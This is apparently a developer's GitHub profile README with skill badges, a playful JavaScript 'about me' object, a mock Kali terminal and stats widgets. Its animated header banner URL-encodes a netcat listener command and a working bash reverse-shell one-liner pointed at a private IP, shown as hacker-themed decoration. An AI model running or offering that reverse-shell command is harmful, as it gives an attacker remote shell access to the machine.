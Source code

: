 <h1>Hi I'm <i><a href="https://github.com/XBEAST1" rel="nofollow"><b>XB3AST</b></i></a>, And I'm</h1>

<img align="right" width="330" src="https://mir-s3-cdn-cf.behance.net/project_modules/disp/2bbf3a52005319.5901123c114f4.gif" alt="coding">

<a href="https://git.io/typing-svg"><img src="https://readme-typing-svg.demolab.com?font=Fira+Code&duration=2000&pause=100&color=db24cf&multiline=true&width=500&height=255&lines=nc+-lvnp+4444;listening+on+%5Bany%5D+4444+...;connect+to+%5BXB3AST%5D++profile+;bash+-i+%3E%26+%2Fdev%2Ftcp%2F192.168.99.10%2F4444+0%3E%261;XB3AST%40profile%3A~%24+.%2Fexploit.py;...................PwN3d!......................................;+++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++++;%24whoami;XB3AST" alt="Typing SVG" /></a>

<p align="left">
  <img src="https://komarev.com/ghpvc/?username=xbeast1&label=Profile%20views&color=0e75b6&style=flat" alt="xbeast1" />
    &nbsp;
  <img src="https://badges.frapsoft.com/os/v1/open-source.svg?v=102" alt="Open Source Love"" />
</p>


- 🌱 I’m currently learning **React Js, Node Js, Express Js, Next Js, Mongo Db**
<br>

```javascript
const data = {
    pronouns: "He" | "Him",
    codename: "XB3AST",
    status: "alive",
    doing: "Forging Web Realms and Crafting Cyber Scripts in Shadows...",
    code: ["{Python}", "{PHP}", "{Javascript}"],
    askMeAbout: ["soft dev", "web dev", "cyber sec"],
    webdev: {
        frontEnd: {
            technologies: ["HTML", "CSS", "JavaScript", "Bootstrap", "React JS", "Tailwind CSS"],
        },
        backEnd: {
            technologies: ["Node JS", "Express JS", "Next JS" "SQL, "PHP", "Laravel"],
        }
    },
    contact: {
        website: xbeast1.vercel.app,
        email: xbeast331@proton.me,
        instagram: 0x00007ff,
        youtube: @XBEAST321,
    },
};
```
<h2><b>💻 Access Me <a href="https://xbeast-terminal.vercel.app/">In Terminal</a></b></h2>

```
┌──(root@kali)-[~/]
└─# python3 xb3ast.py

Hello stranger! XB3AST is serving here...

┌──(root@kali)-[~/]
└─# 
```

<h3 align="left">Languages and Tools:</h3>
<img align="left" alt="linux" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/linux/linux-original.svg" style="padding-right:10px;" />
<img align="left" alt="debian" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/debian/debian-original.svg" />
<img align="left" alt="arch" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon@latest/icons/archlinux/archlinux-original.svg" style="padding-right:10px;" />
<img align="left" alt="Visual Studio Code" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/vscode/vscode-original.svg" style="padding-right:10px;" />
<img align="left" alt="python" width="26px" src="https://raw.githubusercontent.com/devicons/devicon/master/icons/python/python-original.svg" style="padding-right:10px;" />
<img align="left" alt="HTML5" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/html5/html5-original.svg" style="padding-right:10px;" />
<img align="left" alt="CSS3" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/css3/css3-original.svg" style="padding-right:10px;" />
<img align="left" alt="tailwind" width="33px" src="https://tailwindcss.com/_next/static/media/tailwindcss-mark.3c5441fc7a190fb1800d4a5c7f07ba4b1345a9c8.svg" style="padding-right:10px;" />
<img align="left" alt="JavaScript" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/javascript/javascript-original.svg" style="padding-right:10px;" />
<img align="left" alt="React" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/react/react-original.svg" style="padding-right:10px;" />
<img align="left" alt="Node.js" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/nodejs/nodejs-original.svg" style="padding-right:10px;" />
<img align="left" alt="MongoDB" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mongodb/mongodb-original.svg" style="padding-right:10px;" />
<img align="left" alt="MySQL" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/mysql/mysql-original.svg" style="padding-right:10px;" />
<img align="left" alt="Git" width="26px" src="https://cdn.jsdelivr.net/gh/devicons/devicon/icons/git/git-original.svg" style="padding-right:10px;" />
<img align="left" alt="GitHub" width="26px" src="https://user-images.githubusercontent.com/3369400/139447912-e0f43f33-6d9f-45f8-be46-2df5bbc91289.png" style="padding-right:10px;" />
<img align="left" alt="Terminal" width="26px" src="./img/terminal-dark.svg" />
<br>
<br>
    
<h2><b> 📊 Github Stats ✨ </b></h2>
<div class="stats" align="center">

<img  alt="stats_banner" height="150px" style="padding-right:10px;" src="https://user-images.githubusercontent.com/78341798/194534778-d662496c-ae00-4e8d-ae9b-b90912054e7f.gif"/>

![Programming Gym's GitHub Stats](https://github-readme-stats.vercel.app/api?username=xbeast1&hide=stars&count_private=true&show_icons=true&theme=algolia&border_radius=20)

![GitHub Streak](https://streak-stats.demolab.com?user=xbeast1&count_private=true&theme=algolia&border_radius=20)

![Most Used Languages](https://github-readme-stats.vercel.app/api/top-langs/?username=xbeast1&layout=compact&show_icons=true&theme=algolia&border_radius=20)
</div>
